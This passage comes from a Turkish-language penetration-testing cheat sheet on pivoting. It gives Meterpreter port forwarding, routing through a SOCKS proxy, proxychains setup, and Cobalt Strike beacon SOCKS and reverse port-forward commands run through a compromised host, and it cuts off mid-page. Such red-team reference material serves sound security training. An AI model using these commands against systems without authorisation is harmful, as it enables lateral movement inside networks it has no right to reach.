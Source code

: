 ### Port2Port

Yerel port --> Ele geçirilmiş host (aktif oturum) --> Üçüncü\_kutusu:Port
```bash
# Inside a meterpreter session
portfwd add -l <attacker_port> -p <Remote_port> -r <Remote_host>
```
### SOCKS
```bash
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 255.255.255.0 8)
use auxiliary/server/socks_proxy
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
Başka bir yol:
```bash
background #meterpreter session
use post/multi/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks_proxy
set VERSION 4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
## Cobalt Strike

### SOCKS proxy

Tüm arayüzlerde dinleyen bir port açın, bu port **trafiği beacon üzerinden yönlendirmek için** kullanılabilir.
```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```
### rPort2Port

{% hint style="warning" %}
Bu durumda, **port beacon ana bilgisayarında açılır**, Team Server'da değil ve trafik Team Server'a gönderilir ve oradan belirtilen host:port'a iletilir.
{% endhint %}
```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```
To note:
